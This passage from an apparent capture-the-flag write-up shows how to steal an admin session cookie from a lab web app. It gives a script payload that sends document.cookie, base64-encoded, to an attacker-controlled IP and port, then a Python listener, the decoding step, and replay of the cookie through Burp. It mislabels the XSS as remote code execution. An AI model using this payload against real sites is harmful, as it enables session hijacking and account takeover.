More info <a herf="https://www.tutorialspoint.com/What-is-the-difference-between-session-and-cookies#:~:text=Cookies%20are%20client%2Dside%20files,files%20that%20store%20user%20information.&text=Cookies%20expire%20after%20the%20user,logs%20out%20of%20the%20program." target="blank" rel="noopener"> Here </a> on what a cookie/session id is, we want to be able to get the cookie that the admins use in order to access the website such that we can do what we want on the website as an admin!

Now, in order to steal the admin cookie, the normal method would be to try remote code execution, which is a *classic way* and is fairly simple.

<blockquote><p>NOTE: for this method to work, there shouldnt be a "HTTP-Only" header in the cookie.</p></blockquote>

The code we will be executing such that we get the admin cookie is as follows:
```html
<script>var i=new Image(); i.src="http://{YOUR_IP}:{PORT}/?cookie="+btoa(document.cookie);</script>
```
Where we are tricking the server to give us the cookie that access externals links and send it to our own system as a base64 string using `btoa()` function while trying to get a fake URL to respond.

Before we send this, we have to start a python server by doing so:
```bash
python3 -m http.server 8080
```

Now we intercept */support* page and send it to repeater such that we do not need to keep intercepting the same request again and again.

in repeater we are able to change the content of the request header, so lets do just that.
Let's send the payload script to a bunch of keys in the request and hope that one sticks.

>> SEND IT!

we see that the website says "Hacking Attempt Detected" but do notice that the http server has got something for us!, what is it? Oh, it is a base64 encoded string!
now to decode it, we do something like this:
```bash
echo "{YOUR BASE64 STRING}" | base64 -d
```
Which should hopefully print out a admin cookie!
OH my look what we have here!
```bash
$ is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```
It's an admin cookie!

Now let's head back to */dashboard* and try to get access!

Intercept the request to /dashboard using Burp and add a request header with the key "Cookie" and value of the string that you got just now, and forward the request, we should get access to the dashboard page now.

<figure>
<img src="/hacking-headless/page3.png" alt="dashboard page">
<figcaption>Fig 3. Dashboard Page</figcaption>
</figure>

Now let's see our viable options, 
